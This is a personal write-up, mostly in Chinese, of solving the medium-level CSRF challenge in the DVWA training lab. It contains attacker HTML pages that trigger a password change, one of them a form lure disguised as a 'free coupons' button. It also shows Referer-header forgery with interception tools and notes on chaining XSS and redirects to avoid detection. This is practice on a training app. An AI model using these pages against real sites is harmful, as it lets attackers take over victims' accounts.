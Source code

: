 # Cross Site Request Forgery (CSRF)

> Medium Level
For the medium level challenge, there is a check to see where the last requested page came from. The developer believes if it matches the current domain, it must of come from the web application so it can be trusted.
It may be required to link in multiple vulnerabilities to exploit this vector, such as reflective XSS.

看提示有寫說後端會判斷 request 是否來自同一個網域，代表我必須在 DVWA 以外的網域建立一個惡意頁面模擬攻擊場景

現在瀏覽器也有 CORS 限制，也就是禁止不同網域的請求，因此要克服這兩個因素

跨來源資源共用（CORS） - HTTP | MDN
[https://developer.mozilla.org/zh-TW/docs/Web/HTTP/CORS](https://developer.mozilla.org/zh-TW/docs/Web/HTTP/CORS)

要繞過 CORS 和 request 來源檢查我大概會參考到至少這兩個條件:

1. 將 request 轉為後端傳送，這樣就可以突破瀏覽器的 CORS 限制 (但前提是你需要有對方的 cookie 或 csrf token)
2. 更改 request header 裡的 `Referer` 欄位以偽照來源

但是不同域名的話就無法取得 user 的 cookie 內的 PHPSESSIONID 🤔，不知道有沒解法 ?

## Test trigger CSRF attack from other domain

### By GET img tag

```html
<!DOCTYPE html>
<html lang="en">
<head>
  <meta charset="UTF-8">
  <title>csrf by GET</title>
</head>
<body>
set password to: 1111
<img src="http://localhost:8086/vulnerabilities/csrf/?password_new=1111&password_conf=1111&Change=Change">
<script>
  console.log(`your cookie is: ${document.cookie}`)
</script>
</body>
</html>
```
先建立一個測試用的 server，用來放惡意攻擊頁面

惡意頁面網址:

```
http://192.168.0.196:8080/get-img.html
```

瀏覽器會將 DVWA 的網址 http://localhost:8086/vulnerabilities/csrf/ 和惡頁面的網址視為不同域名

### 假裝是受害者被騙連到惡意網頁

![假裝是受害者被騙連到惡意網頁](https://s3.us-west-2.amazonaws.com/secure.notion-static.com/630b70ea-e67c-4c69-95c4-27e344b54cf1/Untitled.png?X-Amz-Algorithm=AWS4-HMAC-SHA256&X-Amz-Content-Sha256=UNSIGNED-PAYLOAD&X-Amz-Credential=AKIAT73L2G45EIPT3X45%2F20220215%2Fus-west-2%2Fs3%2Faws4_request&X-Amz-Date=20220215T035944Z&X-Amz-Expires=86400&X-Amz-Signature=955a6e04aab80743535c1d6832bfb43a1c9890caecd5687015623c89d56627e5&X-Amz-SignedHeaders=host&response-content-disposition=filename%20%3D%22Untitled.png%22&x-id=GetObject)

![假裝是受害者被騙連到惡意網頁](https://s3.us-west-2.amazonaws.com/secure.notion-static.com/f98de600-4844-4322-9e72-f7a4b79eb39f/Untitled.png?X-Amz-Algorithm=AWS4-HMAC-SHA256&X-Amz-Content-Sha256=UNSIGNED-PAYLOAD&X-Amz-Credential=AKIAT73L2G45EIPT3X45%2F20220215%2Fus-west-2%2Fs3%2Faws4_request&X-Amz-Date=20220215T040004Z&X-Amz-Expires=86400&X-Amz-Signature=891412560875d25c96a1e88d1b3607cb05ca6f1f3286ff62d9c71f894c9bbb08&X-Amz-SignedHeaders=host&response-content-disposition=filename%20%3D%22Untitled.png%22&x-id=GetObject)



### failed

![failed](https://s3.us-west-2.amazonaws.com/secure.notion-static.com/116efe83-b65d-40f8-b247-db202fcd8eb5/Untitled.png?X-Amz-Algorithm=AWS4-HMAC-SHA256&X-Amz-Content-Sha256=UNSIGNED-PAYLOAD&X-Amz-Credential=AKIAT73L2G45EIPT3X45%2F20220215%2Fus-west-2%2Fs3%2Faws4_request&X-Amz-Date=20220215T040058Z&X-Amz-Expires=86400&X-Amz-Signature=454d5731f61897edb5d6eff1457ed3715c5a0ed4e63e1fa7a17d1c0e11b1ab73&X-Amz-SignedHeaders=host&response-content-disposition=filename%20%3D%22Untitled.png%22&x-id=GetObject)

看來沒有效，失敗 😭，get img tag 的方式沒辦法用於不同域名的場景

---
### By GET Form

這邊是參考別人的 writeup，做一個 GET form 從惡意頁面跳轉到目標網域的頁面

為了方便觀察就不隱藏表單了

```html
<!DOCTYPE html>
<html lang="en">
<head>
  <meta charset="UTF-8">
  <title>csrf by POST</title>
  <script src="https://unpkg.com/axios/dist/axios.min.js"></script>
</head>
<body>
set password to: 1111

<form action="http://localhost:8086/vulnerabilities/csrf/" method="get">
  <input type="xhidden" name="password_new" value="1111"/>
  <input type="xhidden" name="password_conf" value="1111"/>
  <input type="hidden" name="Change" value="Change"/>
  <input type="submit" value="Get free coupons 💸💸💸"/>
</form>
</body>
</html>
```
塞一個 form 給受害者點下去跳轉，理論上應該是可以，但實在是太可疑了XD，會讓人起疑心 除非能夠在瞬間又跳轉到其他頁面，目前想到的可能的場景是分享,重設密碼,串這跳轉這類功面能性頁，這類功能通常是一瞬間就被重導走，而且帶有參數可以讓你指定接下來要跳轉到哪邊去

另一種場竟是我已經拿下 DVWA 網域的某個頁面，再讓受害者跳轉到這個 CSRF 頁面

![That request didn't look correct.](https://s3.us-west-2.amazonaws.com/secure.notion-static.com/b7a07cdb-ac3b-4044-916e-7afb3ecc3136/Untitled.png?X-Amz-Algorithm=AWS4-HMAC-SHA256&X-Amz-Content-Sha256=UNSIGNED-PAYLOAD&X-Amz-Credential=AKIAT73L2G45EIPT3X45%2F20220215%2Fus-west-2%2Fs3%2Faws4_request&X-Amz-Date=20220215T040207Z&X-Amz-Expires=86400&X-Amz-Signature=bf76732e0fc0d3fc22214d2d5032a28bb19612965faaa2ddd7385b167f72f27c&X-Amz-SignedHeaders=host&response-content-disposition=filename%20%3D%22Untitled.png%22&x-id=GetObject)

```html
That request didn't look correct.
```
### Intercept and change Referer value (Tamper Data)

想辦法讓 header 變成跟 DVWA 的一樣，要做到這件事必須從中攔截再修改

可以使用 Tamper Data 或 Burp Suite

Tamper Data for FF Quantum – 下載 🦊 Firefox 擴充套件（zh-TW）
[https://addons.mozilla.org/zh-TW/firefox/addon/tamper-data-for-ff-quantum/](https://addons.mozilla.org/zh-TW/firefox/addon/tamper-data-for-ff-quantum/)

```
Referer http://localhost:8086/vulnerabilities/csrf/
```

進入惡意頁面，按下送出
![tamper data](https://s3.us-west-2.amazonaws.com/secure.notion-static.com/b443baeb-2271-4740-a2a1-d4dc91ebfcb2/Untitled.png?X-Amz-Algorithm=AWS4-HMAC-SHA256&X-Amz-Content-Sha256=UNSIGNED-PAYLOAD&X-Amz-Credential=AKIAT73L2G45EIPT3X45%2F20220215%2Fus-west-2%2Fs3%2Faws4_request&X-Amz-Date=20220215T042909Z&X-Amz-Expires=86400&X-Amz-Signature=b739b0c296058934c70baa36083ad5a60834826f25c361712540ad2e03b40ff2&X-Amz-SignedHeaders=host&response-content-disposition=filename%20%3D%22Untitled.png%22&x-id=GetObject)

![tamper data](https://s3.us-west-2.amazonaws.com/secure.notion-static.com/073b8349-3065-4c67-bc95-be0f1b5766e8/Untitled.png?X-Amz-Algorithm=AWS4-HMAC-SHA256&X-Amz-Content-Sha256=UNSIGNED-PAYLOAD&X-Amz-Credential=AKIAT73L2G45EIPT3X45%2F20220215%2Fus-west-2%2Fs3%2Faws4_request&X-Amz-Date=20220215T043047Z&X-Amz-Expires=86400&X-Amz-Signature=1b5d13c018618efa63b9e882681f2c153331fd0e01b166de83cfe8c324c609a7&X-Amz-SignedHeaders=host&response-content-disposition=filename%20%3D%22Untitled.png%22&x-id=GetObject)

Before
![before](https://s3.us-west-2.amazonaws.com/secure.notion-static.com/9805fb6d-c1aa-45e6-92d9-1e0f1ffab0b2/Untitled.png?X-Amz-Algorithm=AWS4-HMAC-SHA256&X-Amz-Content-Sha256=UNSIGNED-PAYLOAD&X-Amz-Credential=AKIAT73L2G45EIPT3X45%2F20220215%2Fus-west-2%2Fs3%2Faws4_request&X-Amz-Date=20220215T043129Z&X-Amz-Expires=86400&X-Amz-Signature=05f02453502fe2c30030cf8c52d5adc52d88725885f62cd5a23ffcc14d980abc&X-Amz-SignedHeaders=host&response-content-disposition=filename%20%3D%22Untitled.png%22&x-id=GetObject)

After
![after](https://s3.us-west-2.amazonaws.com/secure.notion-static.com/2f621a8d-c2ce-4644-8b0c-a4196e319e08/Untitled.png?X-Amz-Algorithm=AWS4-HMAC-SHA256&X-Amz-Content-Sha256=UNSIGNED-PAYLOAD&X-Amz-Credential=AKIAT73L2G45EIPT3X45%2F20220215%2Fus-west-2%2Fs3%2Faws4_request&X-Amz-Date=20220215T043150Z&X-Amz-Expires=86400&X-Amz-Signature=8a9e0410a8b49b52995111f5fc24d0868bce8cf9306b0388812409699325f548&X-Amz-SignedHeaders=host&response-content-disposition=filename%20%3D%22Untitled.png%22&x-id=GetObject)

### Done
![done](https://s3.us-west-2.amazonaws.com/secure.notion-static.com/d7d4cba8-ace3-4196-8ff6-26bd1fdaaa8e/Untitled.png?X-Amz-Algorithm=AWS4-HMAC-SHA256&X-Amz-Content-Sha256=UNSIGNED-PAYLOAD&X-Amz-Credential=AKIAT73L2G45EIPT3X45%2F20220215%2Fus-west-2%2Fs3%2Faws4_request&X-Amz-Date=20220215T043241Z&X-Amz-Expires=86400&X-Amz-Signature=8816c29b3c2ccc0c2cb00cd0fd52306e06ba17f5d4593d19ea5235ead428cb37&X-Amz-SignedHeaders=host&response-content-disposition=filename%20%3D%22Untitled.png%22&x-id=GetObject)

---

### 夠過用 Network panel 修改
接下來所做的操作跟之前使用 tamper data 的流程差不多，只是工具不同

如果有在 browser tool 設定頁面開啟 log 紀錄保存的話就可以看到跳轉後的 request，接著再回到惡意頁面修改 Referer

![](https://s3.us-west-2.amazonaws.com/secure.notion-static.com/ff68ec45-3783-469d-9738-5b85a5306a60/Untitled.png?X-Amz-Algorithm=AWS4-HMAC-SHA256&X-Amz-Content-Sha256=UNSIGNED-PAYLOAD&X-Amz-Credential=AKIAT73L2G45EIPT3X45%2F20220215%2Fus-west-2%2Fs3%2Faws4_request&X-Amz-Date=20220215T043642Z&X-Amz-Expires=86400&X-Amz-Signature=42e39ee3f3f43b2d00e5d3971eb147c62c6789801014a0a65a1e1b7a803d8d8e&X-Amz-SignedHeaders=host&response-content-disposition=filename%20%3D%22Untitled.png%22&x-id=GetObject)

![](https://s3.us-west-2.amazonaws.com/secure.notion-static.com/1018f2c6-3b16-4d66-84e5-7431140aaf78/Untitled.png?X-Amz-Algorithm=AWS4-HMAC-SHA256&X-Amz-Content-Sha256=UNSIGNED-PAYLOAD&X-Amz-Credential=AKIAT73L2G45EIPT3X45%2F20220215%2Fus-west-2%2Fs3%2Faws4_request&X-Amz-Date=20220215T043716Z&X-Amz-Expires=86400&X-Amz-Signature=7b849c91ad9ea168a1d0fbdb163113c3f5e600892a57557875363878306a9b14&X-Amz-SignedHeaders=host&response-content-disposition=filename%20%3D%22Untitled.png%22&x-id=GetObject)

![](https://s3.us-west-2.amazonaws.com/secure.notion-static.com/4fbf987c-624b-4db2-9ed7-75667d4ab672/Untitled.png?X-Amz-Algorithm=AWS4-HMAC-SHA256&X-Amz-Content-Sha256=UNSIGNED-PAYLOAD&X-Amz-Credential=AKIAT73L2G45EIPT3X45%2F20220215%2Fus-west-2%2Fs3%2Faws4_request&X-Amz-Date=20220215T043725Z&X-Amz-Expires=86400&X-Amz-Signature=a086b6e7d76a207395be244386fc8f2b29f47f102fab47fd0c63c724fc655ce4&X-Amz-SignedHeaders=host&response-content-disposition=filename%20%3D%22Untitled.png%22&x-id=GetObject)

---

### memo:

一些心得和未經過驗證的想法，先記錄一下

若要做到自動串改的話，也許可以從這些地方下手

- 惡意瀏覽器套件
- MITM
- 濫用目標網站的跳轉功能 (可能可以搭配 XSS)
- 對付 Referer 用竄改，對付 token 用擷取

如果從目標網站再進行間接跳轉不知道可不可行 ? 也就是最後會重導回惡意頁面，避免被察覺😶‍🌫️

```html
惡意頁面 -> DVWA page A (XSS) -> 惡意頁面
```

但在這之前要先確認 DVWA page A 上是否有能夠有 XSS 的地方或能濫用的功能
